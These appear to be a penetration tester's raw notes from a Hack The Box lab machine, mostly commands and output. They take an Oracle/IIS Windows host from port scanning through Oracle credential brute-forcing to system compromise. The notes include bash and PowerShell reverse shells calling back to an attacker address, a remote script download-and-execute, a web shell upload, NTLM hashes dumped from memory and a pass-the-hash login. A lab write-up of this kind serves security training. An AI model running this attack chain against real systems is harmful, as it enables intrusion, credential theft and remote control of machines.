




PORT      STATE    SERVICE      VERSION
79/tcp    filtered finger
80/tcp    open     http         Microsoft IIS httpd 8.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open     oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open     msrpc        Microsoft Windows RPC
49153/tcp open     msrpc        Microsoft Windows RPC
49154/tcp open     msrpc        Microsoft Windows RPC
49155/tcp open     msrpc        Microsoft Windows RPC
49159/tcp open     oracle-tns   Oracle TNS listener (requires service name)
49160/tcp open     msrpc        Microsoft Windows RPC
49161/tcp open     msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2m26s, deviation: 0s, median: 2m26s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-01-26T09:29:08
|_  start_date: 2021-01-26T09:23:01

finger @10.10.10.82
finger: connect: Connection refused

nmap --script smb-enum* -p445,139 10.10.10.82

kali@kali:~/htb/boxes/silo/10.10.10.82$ nmap --script smb-enum* -p445,139 10.10.10.82                                                                                                                                                                                                                                        
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-26 10:29 CET
Nmap scan report for 10.10.10.82
Host is up (0.13s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
|_smb-enum-services: ERROR: Script execution failed (use -d to debug)
445/tcp open  microsoft-ds
|_smb-enum-services: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 20.22 seconds

1521/tcp  open     oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)

https://www.rapid7.com/db/modules/auxiliary/scanner/oracle/tnspoison_checker/

https://www.cvedetails.com/vulnerability-list/vendor_id-93/product_id-467/version_id-107266/Oracle-Database-Server-11.2.0.2.html

https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener
nmap --script "oracle-tns-version" -p 1521 -T4 -sV 10.10.10.82

hydra -P ~/htb/rockyou.txt -t 32 -s 1521 10.10.10.82 oracle-listener

kali@kali:~/htb/boxes/silo/10.10.10.82$ tnscmd10g status-p 1521 -h 10.10.10.82
sending (CONNECT_DATA=(COMMAND=status-p)) to 10.10.10.82:1521
writing 91 bytes
reading
.a......"..U(DESCRIPTION=(ERR=12508)(VSNNUM=186647040)(ERROR_STACK=(ERROR=(CODE=12508)(EMFI=4))))

kali@kali:~/htb/boxes/silo/10.10.10.82$ hydra -L /opt/lists/sids-oracle.txt -s 1521 10.10.10.82 oracle-sid
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-26 10:41:55
[DATA] max 16 tasks per 1 server, overall 16 tasks, 737 login tries (l:737/p:1), ~47 tries per task
[DATA] attacking oracle-sid://10.10.10.82:1521/
[1521][oracle-sid] host: 10.10.10.82
[1521][oracle-sid] host: 10.10.10.82   login: CLRExtProc
[1521][oracle-sid] host: 10.10.10.82   login: PLSExtProc
1 of 1 target successfully completed, 3 valid passwords found
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-26 10:46:37

git clone https://gitlab.com/kalilinux/packages/oscanner.git

oscanner -s 10.10.10.82 -P 1521

kali@kali:~/htb/boxes/silo/10.10.10.82$ cat dbs.txt 
CLRExtProc
PLSExtProc
XE

nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=CLRExtProc 10.10.10.82

nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=PLSExtProc 10.10.10.82

nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=XE 10.10.10.82
    PORT     STATE SERVICE REASON
    1521/tcp open  oracle  syn-ack
    | oracle-brute: 
    |   Accounts: 
    |     CTXSYS:CTXSYS - Account is locked
    |     MDSYS:MDSYS - Account is locked
    |     OUTLN:OUTLN - Account is locked
    |     HR:HR - Account is locked
    |     DBSNMP:DBSNMP - Account is locked
    |     DIP:DIP - Account is locked
    |     XDB:CHANGE_ON_INSTALL - Account is locked
    |_  Statistics: Performed 695 guesses in 14 seconds, average tps: 49.6

kali@kali:~/htb/boxes/silo/10.10.10.82$ sqlplus DBSNMP/DBSNMP@10.10.10.82/XE
sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory

https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared
sudo sh -c "echo /usr/lib/oracle/19.6/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig

nmap --script oracle-brute -p 1521 --script-args "oracle-brute.sid=XE,brute.credfile=/opt/lists/pass-oracle.txt" 10.10.10.82

 1982, 2019, Oracle.  All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days

Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> 

kali@kali:/opt/odat$ python3 odat.py java -s 10.10.10.82 -U scott -P tiger -d XE --exec "bash -i >& /dev/tcp/10.10.14.9/1234 0>&1"

[1] (10.10.10.82:1521): Execute the `bash -i >& /dev/tcp/10.10.14.9/1234 0>&1` on the 10.10.10.82 server
[-] Impossible to use the JAVA library to execute a system command: `ORA-29538: Java not installed`

./odat.py dbmsscheduler -s 10.10.10.82 -d XE -U scott -P tiger --exec "powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.9",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1

powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.9",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

./odat.py dbmsscheduler -s 10.10.10.82 -d XE -U scott -P tiger --exec "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.9/mini-reverse.ps1')"

kali@kali:/opt/odat$ python3 odat.py dbmsscheduler -s 10.10.10.82 -d XE -U scott -P tiger --exec "ping 10.10.14.9"

[1] (10.10.10.82:1521): Execute the `ping 10.10.14.9` on the 10.10.10.82 server
[-] The `ping 10.10.14.9` command was not executed on the 10.10.10.82 server: `ORA-27486: insufficient privileges ORA-06512: at "SYS.DBMS_ISCHED", line 124 ORA-06512: at "SYS.DBMS_SCHEDULER", line 271 ORA-06512: at line 1`
[+] The Job is running

sudo tcpdump -i tun0 icmp

no output

python3 odat.py all -s 10.10.10.82 -d XE -U scott -P tiger

kali@kali:/opt/odat$ python3 odat.py tnspoison -s 10.10.10.82 -d XE -U scott -P tiger --test-module

[1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning

SELECT  table_name, owner FROM  dba_tables WHERE  owner='schema_name' ORDER BY  owner, table_name;

sqlplus SCOTT/tiger@10.10.10.82:1521/XE as sysdba

SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
SYS                            EXP_FULL_DATABASE              YES YES NO
SYS                            GATHER_SYSTEM_STATISTICS       YES YES NO
SYS                            HS_ADMIN_EXECUTE_ROLE          YES YES NO
SYS                            HS_ADMIN_ROLE                  YES YES NO
SYS                            HS_ADMIN_SELECT_ROLE           YES YES NO
SYS                            IMP_FULL_DATABASE              YES YES NO
SYS                            LOGSTDBY_ADMINISTRATOR         YES YES NO
SYS                            OEM_ADVISOR                    YES YES NO
SYS                            OEM_MONITOR                    YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            PLUSTRACE                      YES YES NO
SYS                            RECOVERY_CATALOG_OWNER         YES YES NO
SYS                            RESOURCE                       YES YES NO
SYS                            SCHEDULER_ADMIN                YES YES NO
SYS                            SELECT_CATALOG_ROLE            YES YES NO
SYS                            XDBADMIN                       YES YES NO
SYS                            XDB_SET_INVOKER                YES YES NO
SYS                            XDB_WEBSERVICES                YES YES NO
SYS                            XDB_WEBSERVICES_OVER_HTTP      YES YES NO
SYS                            XDB_WEBSERVICES_WITH_PUBLIC    YES YES NO

32 rows selected.

python3 odat.py dbmsxslprocessor -s 10.10.10.82 -d XE -U scott -P tiger --putFile "c:\\inetpub\\wwwroot" "shell.aspx" "/opt/shells/shell.aspx" --sysdba

c:\Users\Phineas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 78D4-EA4D

 Directory of c:\Users\Phineas\Desktop

01/07/2018  02:03 PM    <DIR>          .
01/07/2018  02:03 PM    <DIR>          ..
01/05/2018  10:56 PM               300 Oracle issue.txt
01/04/2018  09:41 PM                32 user.txt
               2 File(s)            332 bytes
               2 Dir(s)  15,437,344,768 bytes free

c:\Users\Phineas\Desktop>type Orac*
type Orac*

Oracle issue.txt

Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link 
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0

link password:
%Hm8646uC$

encoding error -> net use m: \\10.10.14.9\share
can also use impacket-smbserver for better logging

kali@kali:~/htb/boxes/silo/10.10.10.82$ ls -alh SILO-20180105-221806.dmp 
-rw-r--r-- 1 kali kali 1.0G Jan  5  2018 SILO-20180105-221806.dmp

strings SILO-20180105-221806.dmp > dump-strings.txt

git clone https://github.com/volatilityfoundation/volatility.git
sudo python setup.py install

kali@kali:~/htb/boxes/silo/10.10.10.82$ vol.py -f SILO-20180105-221806.dmp --profile Win2012R2x64 hivelist
Volatility Foundation Volatility Framework 2.6.1
Virtual            Physical           Name
------------------ ------------------ ----
0xffffc0000100a000 0x000000000d40e000 \??\C:\Users\Administrator\AppData\Local\Microsoft\Windows\UsrClass.dat
0xffffc000011fb000 0x0000000034570000 \SystemRoot\System32\config\DRIVERS
0xffffc00001600000 0x000000003327b000 \??\C:\Windows\AppCompat\Programs\Amcache.hve
0xffffc0000001e000 0x0000000000b65000 [no name]
0xffffc00000028000 0x0000000000a70000 \REGISTRY\MACHINE\SYSTEM
0xffffc00000052000 0x000000001a25b000 \REGISTRY\MACHINE\HARDWARE
0xffffc000004de000 0x0000000024cf8000 \Device\HarddiskVolume1\Boot\BCD
0xffffc00000103000 0x000000003205d000 \SystemRoot\System32\Config\SOFTWARE
0xffffc00002c43000 0x0000000028ecb000 \SystemRoot\System32\Config\DEFAULT
0xffffc000061a3000 0x0000000027532000 \SystemRoot\System32\Config\SECURITY
0xffffc00000619000 0x0000000026cc5000 \SystemRoot\System32\Config\SAM
0xffffc0000060d000 0x0000000026c93000 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
0xffffc000006cf000 0x000000002688f000 \SystemRoot\System32\Config\BBI
0xffffc000007e7000 0x00000000259a8000 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
0xffffc00000fed000 0x000000000d67f000 \??\C:\Users\Administrator\ntuser.dat

kali@kali:~/htb/boxes/silo/10.10.10.82$ vol.py -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump -y 0xffffc00000028000 -s 0xffffc00000619000
Volatility Foundation Volatility Framework 2.6.1
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::

kali@kali:~/htb/boxes/silo/10.10.10.82$ psexec.py administrator@10.10.10.82 -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.82.....
[*] Found writable share ADMIN$
[*] Uploading file KDaoQUpj.exe
[*] Opening SVCManager on 10.10.10.82.....
[*] Creating service BICt on 10.10.10.82.....
[*] Starting service BICt.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

